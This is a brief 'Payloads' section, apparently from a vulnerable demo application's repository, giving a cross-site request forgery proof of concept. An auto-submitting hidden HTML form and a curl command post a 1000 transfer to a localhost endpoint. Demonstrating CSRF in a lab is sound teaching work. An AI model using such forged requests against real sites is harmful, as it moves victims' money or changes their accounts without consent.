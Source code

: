 # Payloads

It's possible to deliver a CSRF to this application using these payloads:

```html
<html>
    <body>
        <form action="http://localhost:8080/transfer" method="POST">
            <input type="hidden" name="amount" value="1000" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

```sh 
curl -X POST http://localhost:8080/transfer -d "amount=1000"
```
